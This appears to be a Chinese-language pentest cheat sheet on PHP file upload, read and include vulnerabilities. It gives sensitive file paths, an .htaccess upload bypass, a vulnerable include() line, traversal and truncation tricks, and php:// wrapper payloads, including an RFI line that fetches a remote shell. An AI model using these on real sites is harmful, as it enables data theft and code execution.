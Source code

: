 文件
================================

总体思路
--------------------------------
- 上传下载覆盖删除
    - move_uploaded_file
    - file_put_contents/file_get_contents
    - unlink
    - fopen/fgets
- 包含
    - LFI
        - 包含Web日志
        - 包含SSH日志
    - RFI
    - 全局找include, require
- 正常上传
    - 看上传是如何确定能否上传文件的



文件读取
--------------------------------
考虑读取可能有信息的文件

- 用户目录
    - .bash_history
    - .zsh_history
    - .profile
    - .bashrc
    - .gitconfig
    - .viminfo
    - passwd

- 配置文件
    - /etc/apache2/apache2.conf
    - /etc/nginx/nginx.conf

- 日志文件
    - /var/log/apache2/access.log
    - /var/log/nginx/access.log

- 站点目录
    - .svn/entries
    - .git/HEAD
    - WEB-INF/web.xml
    - .htaccess

- 特殊文件
    - .swp
    - .swo
    - .bak
    - index.php~
    - ...

- Python
    - ``__pycache__\__init__.cpython-35.pyc``


文件上传
--------------------------------
apache可根据是否允许重定向考虑上传.htacess
内容为

::
    
    AddType application/x-httpd-php .png
    php_flag engine 1

就可以用png或者其他后缀的文件做php脚本了

另外会解压上传的压缩包文件时，可以考虑上传含符号链接的文件


文件包含
--------------------------------

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

基础包含

::
    
    <?php include("inc/" . $_GET['file']); ?>

考虑常用的三种包含方式

同目录包含

::

    file=.htaccess

目录遍历

::

    ?file=../../../../../../../../../var/lib/locate.db

日志注入

::

    ?file=../../../../../../../../../var/log/apache/error.log

绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一般在文件包含之前，可能会调用file_exists，那么，如何对其进行绕过呢

1. 截断

1.1 %00截断

    几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

1.2 长度截断

    Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

    msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

    linux可以用getconf来判断文件名长度限制和文件路径长度限制

    获取最长文件路径长度：getconf PATH_MAX /root 得到4096
    获取最长文件名：getconf NAME_MAX /root 得到255

    那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

2. 伪协议绕过
    - RCE: requires allow_url_fopen=On and allow_url_include=On
    
    ::

        ?file=[http|https|ftp]://websec.wordpress.com/shell.txt

    - PHP INPUT: specify your payload in the POST parameters, watch urlencoding, details here, requires allow_url_include=On

    ::

        ?file=php://input

    
    - BASE64: lets you read PHP source because it wont get evaluated in base64. More details here and here

    ::

        ?file=php://filter/convert.base64-encode/resource=index.php

    
    - DATA: requires allow_url_include=On

    ::

        ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=


3. url绕过
4. 特殊字符绕过


参考链接
--------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_